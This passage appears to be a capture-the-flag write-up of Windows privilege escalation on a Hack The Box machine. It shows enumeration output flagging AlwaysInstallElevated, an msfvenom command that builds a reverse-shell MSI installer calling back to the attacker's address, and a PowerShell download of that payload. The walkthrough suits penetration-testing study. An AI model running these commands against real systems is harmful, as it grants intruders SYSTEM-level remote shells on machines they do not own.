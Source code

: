 

Being able to create directories at the `C:\` root is interesting.



      [+] Drives Information
       [?] Remember that you should search more info inside the other drives
        C:\ (Type: Fixed)(Filesystem: NTFS)(Available space: 3 GB)(Permissions: Authenticated Users [AppendData/CreateDirectories])  



That's not exploitable on it's own, but enables others.

`AlwaysInstallElevated` is set to 1:



      [+] Checking AlwaysInstallElevated
       [?]  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#alwaysinstallelevated                                             
        AlwaysInstallElevated set to 1 in HKLM!
        AlwaysInstallElevated set to 1 in HKCU!  



This is bad, and is almost certainly exploitable.

There are some unquoted service paths with spaces in them. If I can
restart those services, I could potentially hijack them.

### AlwaysInstallElevated

These registry keys tell windows that a user of any privilege can
install `.msi` files are NT AUTHORITY\\SYSTEM. So all I need to do is
create a malicious `.msi` file, and run it.

I'll use `msfvenon` to create the MSI installer. I did show this process
manually for [Ethereal](/htb-ethereal.md#create-msi), but
it's a painful process, and `msfvenom` will work here. I'll use a
reverse shell payload that I can catch with `nc`:



    oxdf@parrot$ msfvenom -p windows -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.6 LPORT=443 -f msi -o rev.msi
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    No encoder specified, outputting raw payload
    Payload size: 460 bytes
    Final size of msi file: 159744 bytes
    Saved as: rev.msi



I'll upload it just like I did with WinPEAS:



    C:\ProgramData>powershell wget http://10.10.14.6/rev.msi -outfile rev.msi



This requests the file from my Python webserver (now running out of my
love directory) and fetches the MSI.
